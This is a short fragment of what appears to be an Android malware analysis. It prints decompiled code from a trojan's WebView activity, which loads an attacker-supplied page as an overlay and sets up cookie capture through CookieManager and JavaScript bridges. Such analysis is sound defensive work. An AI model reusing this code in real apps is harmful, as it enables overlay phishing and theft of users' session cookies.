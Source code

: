 This how malware perform overlay attack. And the malware will try to steal `cookie` using `getCookie` command -which we will explain- using `cookieManager`. 


```cs
 protected void onCreate(Bundle bundle0) {
        super.onCreate(bundle0);
        this.getWindow().requestFeature(8);
        ActionBar actionBar0 = this.getActionBar();
        if(actionBar0 != null) {
            actionBar0.hide();
        }

        this.setTitle("");
        try {
            this.setContentView(0x7F0B0022);
            View view0 = this.findViewById(0x7F0800B8);
            Intrinsics.checkNotNullExpressionValue(view0, "findViewById(R.id.web_view)");
            WebView webView0 = (WebView)view0;
            webView0.getSettings().setJavaScriptEnabled(true);
            String s = null;
            webView0.setLayerType(2, null);
            String s1 = this.getIntent().getStringExtra("link");
            Log.i("INJECT_URL", Intrinsics.stringPlus("", s1));
            boolean z = this.getIntent().getBooleanExtra("getCookie", false);
            this.packet = this.getIntent().getStringExtra("packet");
            StringBuilder stringBuilder0 = new StringBuilder().append("Web activity started. Navigate to: ");
            if(s1 != null) {
                s = s1.toString();
            }

            AppKt.log$default(this, stringBuilder0.append(s).append(". Get cookie: ").append(((boolean)(((int)z)))).toString(), null, null, 6, null);
            CookieManager cookieManager0 = CookieManager.getInstance();
            CookieSyncManager.createInstance(this.getApplicationContext());
            if(Build.VERSION.SDK_INT >= 21) {
                cookieManager0.setAcceptThirdPartyCookies(webView0, true);
            }
            else {
                cookieManager0.setAcceptCookie(true);
            }

            cookieManager0.acceptCookie();
            CookieSyncManager.getInstance().startSync();
            Intrinsics.checkNotNullExpressionValue(cookieManager0, "cookieManager");
            this.setClient(webView0, ((boolean)(((int)z))), cookieManager0);
            this.setChromeClient(webView0);
            webView0.getSettings().setDomStorageEnabled(true);
            webView0.addJavascriptInterface(new BrowserActivity.onCreate.1(this), "Android");
            webView0.addJavascriptInterface(new BrowserActivity.onCreate.2(), "recorder");
            if(s1 != null) {
                webView0.loadUrl(s1);
                return;
            }
        }
        catch(Exception unused_ex) {
            return;
        }
    }
```
